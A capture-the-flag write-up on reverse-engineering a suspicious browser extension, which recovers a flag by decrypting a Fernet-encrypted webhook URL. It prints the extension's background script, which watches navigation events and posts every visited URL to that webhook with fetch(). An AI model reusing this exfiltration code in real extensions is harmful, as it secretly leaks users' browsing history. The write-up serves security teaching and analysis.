





# The Add/On Trap

**Category:** Reverse Engineering
**Difficulty:** Medium
**Author:** Alessandro Greco aka Aleff

---

## Challenge Description

The challenge provides a suspicious browser extension and asks us to inspect it in order to uncover the hidden flag.

The description focuses on browser add-ons and raises an important security question: what kind of information can an extension access, and can it exfiltrate that information without the user noticing?

The hints are also very important:

1. What kind of file is one ending in `.xpi`?
2. Which modern Python scheme uses URL-safe Base64 32-byte keys?

These hints suggest that the file should be extracted like an archive, then the extension source code should be inspected to identify the encryption scheme used inside it.



---

## Initial Extraction

The downloaded file was protected with the password:

```text
picoctf
```

I started by creating a working directory and extracting the provided ZIP archive:

```bash
mkdir challenge
unzip -P picoctf suspicious.zip -d challenge
cd challenge
```

The extracted file was:

```text
56102ec0438646c68605-1.0.xpi
```

An `.xpi` file is a browser extension package. In practice, it behaves like a ZIP archive, so it can be extracted using `unzip`.

```bash
mkdir extracted
unzip 56102ec0438646c68605-1.0.xpi -d extracted
cd extracted
```

After extraction, the extension contained several files and directories:

```text
manifest.json
popup.html
assets/script.js
background/main.js
icons/
META-INF/
```



---

## Inspecting the Extension Structure

I listed the extracted files recursively:

```bash
ls -R
```

The most important files were:

```text
manifest.json
background/main.js
assets/script.js
```

Then I inspected the extension manifest:

```bash
cat manifest.json
```

Inside `manifest.json`, I found:

```json
"permissions": [
  "webNavigation"
],
"background": {
  "scripts": [
    "background/main.js"
  ]
}
```



This is important because:

* `webNavigation` allows the extension to observe browser navigation events.
* `background/main.js` is the background script executed by the extension.

So the next target for analysis was:

```text
background/main.js
```

---

## Searching for Suspicious Strings

To quickly locate interesting values, I searched through the extension files:

```bash
grep -RniE "pico|flag|key|token|fernet|base64|webhook|fetch|http|storage|cookie|url|tabs|webNavigation" .
```

This revealed suspicious lines inside `background/main.js`:

```javascript
// Secret key must be 32 url-safe base64-encoded bytes!
const key="cGljb0NURnt5b3UncmUgb24gdGhlIHJpZ2h0IHRyYX0="
const webhookUrl='gAAAAABmfRjwFKUB-X3GBBqaN1tZYcPg5oLJVJ5XQHFogEgcRSxSis1e4qwicAKohmjqaD-QG8DIN5ie3uijCVAe3xiYmoEHlxATWUP3DC97R00Cgkw4f3HZKsP5xHewOqVPH8ap9FbE'
```

I then printed the full background script:

```bash
cat background/main.js
```

The important part of the script was:

```javascript
function logOnCompleted(details) {
    console.log(`Information to exfiltrate: ${details.url}`);

    const key="cGljb0NURnt5b3UncmUgb24gdGhlIHJpZ2h0IHRyYX0="
    const webhookUrl='gAAAAABmfRjwFKUB-X3GBBqaN1tZYcPg5oLJVJ5XQHFogEgcRSxSis1e4qwicAKohmjqaD-QG8DIN5ie3uijCVAe3xiYmoEHlxATWUP3DC97R00Cgkw4f3HZKsP5xHewOqVPH8ap9FbE'

    const payload = {
        content: `${details.url}`
    };

    fetch(webhookUrl, {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify(payload)
    })
}
```



This shows that the extension listens to navigation events, reads the visited URL from `details.url`, and sends it using `fetch()` to an encrypted `webhookUrl`.

The two important values are:

```text
key
webhookUrl
```

---

## Understanding the Fernet Hint

The second hint asks:

```text
Which modern Python scheme uses URL-safe Base64 32-byte keys?
```

Inside `background/main.js`, there is a comment saying:

```javascript
// Secret key must be 32 url-safe base64-encoded bytes!
```

This strongly points to **Fernet** from Python's `cryptography` library.

The official Fernet documentation says that `Fernet(key)` expects:

```text
A URL-safe base64-encoded 32-byte key.
```

It also explains that encrypted data is returned as a **Fernet token**.

Reference:

```text
https://cryptography.io/en/latest/fernet/
```

This matches the values found in the extension:

```javascript
const key = "..."
const webhookUrl = "gAAAAAB..."
```

The value starting with `gAAAAAB...` looks like a Fernet token, so the plan is:

1. Use the hardcoded `key`.
2. Treat `webhookUrl` as a Fernet token.
3. Decrypt it with Python.

---

## Writing the Decryption Script

I wrote a small Python script using `cryptography.fernet.Fernet`.

```python
from cryptography.fernet import Fernet

print("Solving Challenge The Add/On Trap")

key = input("Enter your key: ").strip()
url = input("Enter your url encrypted: ").strip()

f = Fernet(key)
decode = f.decrypt(url.encode())

print(decode.decode())
```

The key used was:

```text
cGljb0NURnt5b3UncmUgb24gdGhlIHJpZ2h0IHRyYX0=
```

The encrypted token was:

```text
gAAAAABmfRjwFKUB-X3GBBqaN1tZYcPg5oLJVJ5XQHFogEgcRSxSis1e4qwicAKohmjqaD-QG8DIN5ie3uijCVAe3xiYmoEHlxATWUP3DC97R00Cgkw4f3HZKsP5xHewOqVPH8ap9FbE
```

---

## Mistakes During Solving

During the solving process, I made two small Python mistakes.

### Mistake 1: Typo in the import statement

At first, I wrote:

```python
form cryptography.fernet import Fernet
```

This caused a syntax error because the correct Python keyword is:

```python
from
```

Correct import:

```python
from cryptography.fernet import Fernet
```

### Mistake 2: Printing the method instead of calling it

I also wrote:

```python
print(decode.decode)
```

This printed a method reference instead of the decrypted string:

```text
<built-in method decode of bytes object at ...>
```

The issue was that `.decode` is a method, so it must be called with parentheses:

```python
print(decode.decode())
```

After fixing this, the script printed the decrypted flag correctly.



---

## Running the Script

I ran the script and pasted the key and encrypted token:

```text
Solving Challenge The Add/On Trap
Enter your key: cGljb0NURnt5b3UncmUgb24gdGhlIHJpZ2h0IHRyYX0=
Enter your url encrypted: gAAAAABmfRjwFKUB-X3GBBqaN1tZYcPg5oLJVJ5XQHFogEgcRSxSis1e4qwicAKohmjqaD-QG8DIN5ie3uijCVAe3xiYmoEHlxATWUP3DC97R00Cgkw4f3HZKsP5xHewOqVPH8ap9FbE
```

After decrypting the Fernet token, the flag was recovered.

---

## Flag

```text
picoCTF{...redacted...

---

## Why This Works

The extension stores both the encryption key and the encrypted token inside `background/main.js`.

The comment says that the key must be a URL-safe Base64-encoded 32-byte key. This matches the Fernet encryption scheme from Python's `cryptography` library.

Since the key is exposed in the client-side extension source code, the encrypted `webhookUrl` can be decrypted directly.

The logic is:

```text
Fernet key + Fernet token = decrypted plaintext
```

The decrypted plaintext contains the flag.

---

## Security Lesson

This challenge demonstrates a realistic browser extension privacy issue.

The extension requests:

```text
webNavigation
```

and then accesses:

```javascript
details.url
```

This means the extension can monitor visited URLs.

Then it sends the collected URL using:

```javascript
fetch(webhookUrl, ...)
```

Even if an extension appears harmless, it may still monitor and exfiltrate browser activity.

Another important lesson is that hardcoding encryption keys inside client-side code is insecure. Anyone can extract the extension, inspect the JavaScript files, recover the key, and decrypt the hidden value.

---

## Tools Used

* `unzip`
* `cat`
* `grep`
* Python
* `cryptography.fernet.Fernet`
* Official Fernet documentation

---

## References

* Fernet official documentation:
  https://cryptography.io/en/latest/fernet/

* MDN WebExtensions background scripts:
  https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Background_scripts

* MDN WebExtensions permissions:
  https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/manifest.json/permissions

---

## Key Takeaways

* `.xpi` files are browser extension archives and can be extracted like ZIP files.
* `manifest.json` reveals permissions and background scripts.
* `webNavigation` allows an extension to monitor navigation events.
* Sensitive keys inside JavaScript files can be extracted easily.
* Fernet uses URL-safe Base64-encoded 32-byte keys.
* A Fernet token can be decrypted if the key is exposed.
* In Python, methods like `.decode()` must be called with parentheses.
* Hardcoded secrets in browser extensions should never be trusted.

---

## Conclusion

This challenge was about inspecting a browser extension and understanding what it does behind the scenes.

By extracting the `.xpi` file, reading `manifest.json`, and analyzing `background/main.js`, I found a hardcoded Fernet key and an encrypted token.

The hint about URL-safe Base64 32-byte keys pointed directly to Fernet. Using Python's `cryptography.fernet.Fernet`, I decrypted the token and recovered the flag.

Challenge pwned.
